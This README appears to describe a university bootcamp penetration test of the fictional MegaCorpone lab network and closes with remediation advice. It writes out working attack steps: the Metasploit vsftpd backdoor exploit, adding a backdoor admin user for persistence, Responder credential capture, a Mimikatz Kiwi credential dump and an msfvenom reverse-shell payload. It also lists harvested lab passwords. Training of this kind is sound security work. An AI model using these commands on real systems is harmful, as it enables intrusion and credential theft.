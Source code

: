# Challenges 16 &amp; 17: MegaCorpone/Offensive Security 
Access to Penetration Report: <a href="https://docs.google.com/document/d/1Yl3H_Jfuvs6dhNGDz9ni1OaUGltc31MOrMUnuSMri08/edit?usp=sharing"> MegaCorpOne Penetration Test Report

## Objective Summary
This project highlights offensive security techniques practiced during the University of California, Irvine's Cybersecurity Boot Camp. It involved simulating penetration testing on the fictional MegaCorpone Corporation to uncover and exploit vulnerabilities within their Linux servers and Windows servers. The objective was to identify potential security weaknesses and demonstrate real-world offensive security methodologies.
 
## Project Highlights
Key Achievements:
- Conducted vulnerability assessments and penetration tests on MegaCorpone’s network.
- Exploited misconfigurations and weaknesses in Linux and Windows server environments.
- Delivered actionable security insights and recommendations based on findings.

### Technical Skills Gained
- Server Security:
   - Conducted vulnerability scans and exploited misconfigurations on Linux and Windows servers.
   - Practiced privilege escalation to simulate full system compromise.
- Penetration Testing Methodology:
   - Followed the 5-phase penetration testing process: Reconnaissance, Scanning, Exploitation, Persistence, and Privilege Escalation.
   - Used the MITRE ATT&CK Framework to guide structured attack simulations.
- OSINT & Reconnaissance:
   - Leveraged OSINT tools like OSINT Framework, Google Dorking, and GitHub for information gathering.


### Tools & Environments Used
| Category                                      | Tools Used       |
|-----------------------------------------------|----------------------------|
| <b>Penetration Testing Tools</b>       | Metasploit, Searchsploit, MsVenom |
| <b>Vulnerability Scanning</b>  |  Nmap, Zenmap, Nessus | 
| <b>OSINT Tools</b> | OSINT Framework, Google, GitHub, Shodan.io | 
| <b>Virtual Environments</b> |  Kali Linux, Windows 10, Hyper-V Manager, Azure Windows VMs | 
| <b>Methodologies</b>  | MITRE ATT&CK Framework |


## Project Write up
### Scenario Overview
MegaCorpone, a fictional company, engaged penetration testers (CTP, LLC) to evaluate the security of its web application, Linux, and Windows servers. As they prepared for launch, the goal was to identify and remediate vulnerabilities to ensure a secure deployment.

### Summary of Project Steps

1. <b>Reconnaissance</b>

Gathered publicly available information using Google Dorking and OSINT tools to uncover:
- Website asset files
- Employee usernames and emails
- Sensitve company data
- Server details with open ports (22, 80, 443)

Google Dorking Example:
google: site:megacorpone.com intext:email OR filetype:pdf OR filetype:doc
____________________
2. <b>Scanning & Enumeration</b>

Performed Nmap/Zenmap scans to discover network assests and vulnerabilities:
- Detected open ports (22, 80, 443) and the server OS (Apache/2.4.62 on Debian) on Linux server.
- Identified two additional Windows machines and their open ports.

 Nmap Scan Command Example:
- nmap -sV 172.22.117.150 (service version scan)
____________________
3. <b>Exploitation of Linux Server</b>
- Used MSFconsole to exploit vsftp 2.3.4 service on port 21 to gain access.
- Extracted stored credentials from system text files.
- Used credentials to SSH into the server for further exploitation.

MSFconsole Exploit Example:
- msfconsole -q
- use exploit/unix/ftp/vsftpd_234_backdoor
- set RHOSTS 172.22.117.150
- exploit

 SSH into Linux Server:
- ssh msfadmin@172.22.117.150

Credentials Discovered:
| Username     | Password |
| ------------- | -------- |
| msfadmin | cybersecurity |
| tstark   | Password! | 
____________________
4. <b>Persistence & Credential Harvesting</b>
- Created a persistent backdoor user account to maintain system access.
- Used MSFconsole and LLMNR protocol to capture additional credentials from the Windows 10 machine.
- Exploited Windows DC machine using MSFvenom and Kiwi tools to extract further login credentials.

 Creating a New User for Persistence Example:
- sudo adduser systemmd:password
- sudo usermod -aG admin systemd
- ssh -p 10022 systemd@172.22.117.150

 Kiwi Tools Example:
- kiwi_cmd lsadump::cache
  
 Capturing Windows Credentials Example:
- sudo responder -I eth1 -v

____________________
5. <b>Lateral Movement & Privilege Escalation</b>
- Used admin credentials to move laterally from Windows 10 to the Domain Controller (WinDC01).
- Deployed MSFvenom payloads to escalate privileges and compromise additional systems.

MSFvenom Payload:
- msfvenom -p windows/meterpreter/reverse_tcp LHOST=172.22.117.20 LPORT=4444 -f exe > shell.exe

____________________
### Conclusion

CTP, LLC’s penetration test successfully uncovered critical security vulnerabilities in Megacorpone’s infrastructure. The test demonstrated how weak passwords, exposed usernames, unprotected ports, and vulnerable services could be exploited to gain unauthorized access. Addressing these security gaps is imperative to prevent potential cyber threats, data breaches, and ransomware attacks.

#### Key Takeaways:
- <b>Strengthen Password Policies:</b> Enforce multi-factor authentication and strong password requirements.
- <b>Update or Disable Daemon Services:</b> Regularly update or disable unnecessary services to reduce attack surfaces.
- <b>Secure Open Ports:</b> Restrict unnecessary services and implement firewall rules.
- <b>Monitor for Unauthorized Access:</b> Deploy intrusion detection systems (IDS) to detect suspicious activity.







